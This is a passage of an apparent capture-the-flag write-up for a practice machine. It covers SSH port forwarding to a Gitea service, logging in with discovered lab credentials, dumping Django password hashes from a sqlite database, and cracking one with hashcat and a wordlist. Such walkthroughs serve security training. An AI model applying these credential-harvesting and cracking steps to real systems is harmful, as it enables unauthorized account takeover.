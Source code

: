 Use SSH port forwarding to access Gitea.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh -L 3000:127.0.0.1:3000 martin@10.10.11.235
```

We can now access the Gitea instance via our browser.
![Pasted image 20240713220314.png](/images/Pasted image 20240713220314.png){: .normal }


Since in the sqlite file we found the martincruz user we can try to log in to Gitea using his credentials: `martincruz:Xk4@KjyrYv8t194L!`.
![Pasted image 20240713220309.png](/images/Pasted image 20240713220309.png){: .normal }


Found password for the 7z files: `H@ckThisP@ssW0rDIfY0uC@n:)`.
![Pasted image 20240713220303.png](/images/Pasted image 20240713220303.png){: .normal }


After unzipping the file (using the password we found earlier) we find a new set of credentials.
```bash
┌──(kali㉿kali)-[~]
└─$ sqlite3 db.sqlite3 
SQLite version 3.44.0 2023-11-01 11:23:50
Enter ".help" for usage hints.
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups                   
sqlite> select * from accounts_customuser;
16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
21|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=|2022-12-24 22:39:42.847497|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04.637591
22|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=|2022-12-24 12:55:10.152415|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02.230289
23|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=|2022-12-26 06:20:23.299662|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=|2022-12-24 16:51:53.717055|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15.072407
Program interrupted.
```

We can check the hash type using the [hashcat website](https://hashcat.net/wiki/doku.php?id=example_hashes): `10000`.
```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -m 10000  pass /usr/share/wordlists/rockyou.txt
```

After a while we get the following password: `johnmayer7`.
```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -m 10000 pass --show
pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=:johnmayer7
```
